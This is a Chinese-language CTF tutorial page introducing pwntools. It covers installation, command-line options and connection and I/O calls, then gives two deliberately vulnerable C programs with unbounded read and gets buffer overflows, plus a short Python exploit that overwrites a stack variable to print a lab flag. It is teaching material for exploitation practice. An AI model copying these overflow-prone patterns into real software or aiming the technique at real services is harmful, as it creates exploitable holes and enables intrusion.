 # PWN

# 預先學習pwntools
### PWNTOOLS
- 官方說明
  - pwntools is a CTF framework and exploit development library. 
  - Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.
- [官方GITHUB網址](https://github.com/Gallopsled/pwntools)
- [官方教學pwntools-tutorial(英文版)](https://github.com/Gallopsled/pwntools-tutorial#readme)
- [官方使用手冊(英文版)](https://docs.pwntools.com/en/stable/)

### PWNTOOLS安裝(本課程提供的環境已經安裝好了)
#### 1.撰寫安裝SCRIPT: XXX.sh
```
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```
#### 2.執行: bash XXX.sh
```
root@kali:~# gedit pwntools_install.sh
root@kali:~# bash pwntools_install.sh 
```
```
一路yes到底
```
#### 3.查看各種參數 pwn -h
- [ pwn  Command Line Tools](https://docs.pwntools.com/en/latest/commandline.html#pwn)
```
usage: pwn [-h]
           {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,
            phd,pwnstrip,scramble,shellcraft,template,unhex,update,version}
           ...

Pwntools Command-line Interface

positional arguments:
  {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,
    shellcraft,template,unhex,update,version}
    asm                 Assemble shellcode into bytes    <=== 重要
    checksec            Check binary security settings   <=== 重要
    constgrep           Looking up constants from header files. Example:
                        constgrep -c freebsd -m ^PROT_ '3 + 4'
    cyclic              Cyclic pattern creator/finder    <=== 重要
    debug               Debug a binary in GDB
    disasm              Disassemble bytes into text format  <=== 重要
    disablenx           Disable NX for an ELF binary
    elfdiff             Compare two ELF files
    elfpatch            Patch an ELF file
    errno               Prints out error messages
    hex                 Hex-encodes data provided on the command line or stdin
    phd                 Pwnlib HexDump
    pwnstrip            Strip binaries for CTF usage
    scramble            Shellcode encoder
    shellcraft          Microwave shellcode -- Easy, fast and delicious
    template            Generate an exploit template
    unhex               Decodes hex-encoded data provided on the command line
                        or via stdin.
    update              Check for pwntools updates
    version             Pwntools version

optional arguments:
  -h, --help            show this help message and exit
```

#### pwntools 常用技術
- 載入pwntools套件 ==> from pwn import *  # 可將所有子模組和一些常用的系統函數庫導入
- 建立與程式連結(connection) 
  - 與遠端程式(使用remote())
    - conn = remote('ip_address', port_num)
    - conn = remote('173.4.5.1', 8888) 
  - 與本地端程式(使用process())==> conn = process('./pwn1')
- 接收資料 receive
  - recv(numb=1096, timeout=default)：接收指定位元組數的資料
  - recvall()：接收資料直到 EOF
  - recvline(keepends=True)：接收一行，可選擇是否保留行尾的 \n
  - recvlines(N):接收 N行輸出
  - recvrepeat(timeout=default)：接收資料直到 EOF(END of FILE) 或 timeout
  - recvuntil(delims, timeout=default)：接收資料直到 delims 出現
- 傳資料
  - send(data)：發送資料
  - sendline(data)：發送一行，預設會在行尾加 \n
  - sendlineafter(delims, 要送出的資料)：從 delims 出現後,將要送出的資料 傳送給程式
- 互動 ==> conn.interactive()
  - 可同時對遠端系統讀寫資料
  - 相當於回到 shell 模式進行互動
  - 在取得 shell 之後調用 
- [pwntools工具的使用](https://blog.csdn.net/A951860555/article/details/110990925)

# 範例學習
```c
#include"stdio.h"
#include"stdlib.h"

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  
  int token = 1234;
  char key[16];

  printf("Billy left his key in the locked room.\n");
  printf("However, he forgot the token of the room.\n");
  printf("Do you know what's the key?");

  read(0, key, 40);

  if((int)token == 0xdeadbeef){
    printf("Door open. OwO\n");
    system("cat ./flag");
  }else{
    printf("Cannot open door. QwQ\n");
  }

  return 0;
}
```
- gcc -fno-stack-protector -z execstack pass.c -o pass -no-pie
- socat TCP-LISTEN:20000,fork EXEC:'./pass'

# exploit code
```python
from pwn import *

# r = process('./pass')

//r = remote('120.114.62.210',6125)
r = remote('localhost',20000)

payload = b'B'*28
r.sendline(payload+ p64(0xdeadbeef))

r.interactive()
```

# 第二題pwn
```c
#include"stdio.h"
#include"stdlib.h"

void Billyshouse(){
//  system("cat /home/ctf/flag");
    system("cat ./flag");
}

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);

  char address[32];

  printf("Billy want to go home now.\n");
  printf("Do you know the address of his house ?");

  gets(address);

  return 0;
}

```
